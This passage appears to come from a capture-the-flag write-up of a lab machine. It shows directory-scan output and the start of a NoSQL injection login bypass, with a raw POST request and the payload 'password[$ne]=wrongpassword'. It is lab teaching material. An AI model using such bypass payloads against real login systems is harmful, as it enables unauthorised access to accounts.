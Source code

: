 ```
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200       28l       59w     1002c http://10.10.11.139:5000/login
200       28l       59w     1002c http://10.10.11.139:5000/Login
200       28l       59w     1002c http://10.10.11.139:5000/LOGIN
[####################] - 58s    29999/29999   0s      found:3       errors:0
[####################] - 58s    29999/29999   515/s   http://10.10.11.139:5000

```

Nothing I don’t already know about.

## Shell as admin

### Auth Bypass Via NoSQL Injection

Some basic SQL injections didn’t do anything, nor did a quick `sqlmap` run against the login form.

Testing for NoSQL injection is a bit trickier than some of the simple checks for SQL injection. PayloadsAllTheThings has a [good section of payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass) for NoSQL auth bypass to keep as a handy reference for the things I’ll show here. Here we want Node to handle the input as a JSON object. The page by default is submitting as a HTML form (this is set by the `Content-Type` header in the request):

```

POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

user=admin&password=wrongpassword

```

In this format, I can try adding changing the data to:

```

user=admin&password[$ne]=wrongpassword

```
